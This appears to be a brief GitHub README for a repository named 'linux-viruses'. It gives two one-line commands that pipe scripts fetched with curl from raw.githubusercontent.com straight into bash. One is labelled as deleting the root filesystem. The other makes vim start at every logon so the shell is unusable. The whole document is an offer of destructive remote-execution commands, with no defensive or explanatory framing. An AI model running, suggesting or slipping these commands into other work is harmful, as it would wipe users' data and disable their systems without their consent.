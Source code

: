 # linux-viruses
Delete /  
curl https://raw.githubusercontent.com/30p87/linux-viruses/main/rm_slash | bash


Start vim -y at logon ("unusable" shell)  
curl https://raw.githubusercontent.com/30p87/linux-viruses/main/vim | bash
